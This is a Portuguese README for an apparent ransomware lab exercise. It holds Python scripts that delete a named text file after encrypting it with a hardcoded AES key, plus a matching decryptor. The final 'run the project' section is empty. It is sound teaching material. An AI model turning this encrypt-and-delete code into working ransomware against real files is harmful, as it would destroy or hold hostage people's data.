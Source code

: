 # Desafio de Ransomware com Python

## Ferramentas Utilizadas
- **Python 3**
- **Biblioteca pyaes** (para AES simétrico)
- **Kali Linux** (ou qualquer distribuição Linux)

## Instalação
Antes de executar o código, instale a biblioteca necessária:
```bash
pip3 install pyaes
```

## Encriptando um Arquivo
### Código `encrypter.py`
```python
import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "Desafio.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo
os.remove(file_name)

## chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomware"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()
```

## Decriptando um Arquivo
### Código `decrypter.py`
```python
import os
import pyaes

## abrir o arquivo criptografado
file_name = "Desafio.txt.ransomware"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## chave para descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

## remover o arquivo criptografado
os.remove(file_name)

## criar o arquivo descriptografado
new_file = "Desafio.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()
```

## Executando o Projeto


```

---

